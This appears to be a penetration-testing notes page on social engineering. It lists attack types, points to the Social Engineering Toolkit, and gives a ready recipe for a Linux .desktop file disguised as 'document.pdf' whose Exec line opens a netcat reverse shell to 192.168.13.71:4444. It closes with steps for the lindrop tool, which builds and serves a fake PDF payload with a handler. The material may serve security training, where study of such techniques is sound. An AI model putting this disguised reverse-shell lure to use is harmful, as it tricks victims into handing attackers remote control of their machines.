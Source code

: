# Social Engineering

Types of social engineering:

1.  Pretexting
2.  Phishing - Whailing(Targets Executives in an organization, such as the CFO for gaining specific types of information) and Spear Phishing(Targets specific individuals within an organization, to try and circumvent detection)
3.  Baiting
4.  Physical

[https://www.virustotal.com/gui/](https://www.virustotal.com/gui/)

## Social Engineering Toolkit (SET)

[SET](https://github.com/trustedsec/social-engineer-toolkit)  
[SET Readme](https://github.com/trustedsec/social-engineer-toolkit/tree/master/readme)

`setoolkit`

Social Engineering Attacks > Spear-Phishing Attack Vectors > select options

* * *

* * *

Create test.desktop file

Then edit that by following:

```
[Desktop Entry]
Type=Application
Name=document.pdf
Exec=/bin/nc -e /bin/sh 192.168.13.71 4444
Icon=[in command propt type *pdf.svg and will list some icons we can select path from there and give it over here]
```


lidrop is a tool that can be used:

[https://obscurechannel.com/x42/lindrop.html](https://obscurechannel.com/x42/lindrop.html)

run lindrop.py
then create a payload and a handler.
run simple http server so that we can give url of the payload.
Then give url of the output pdf file.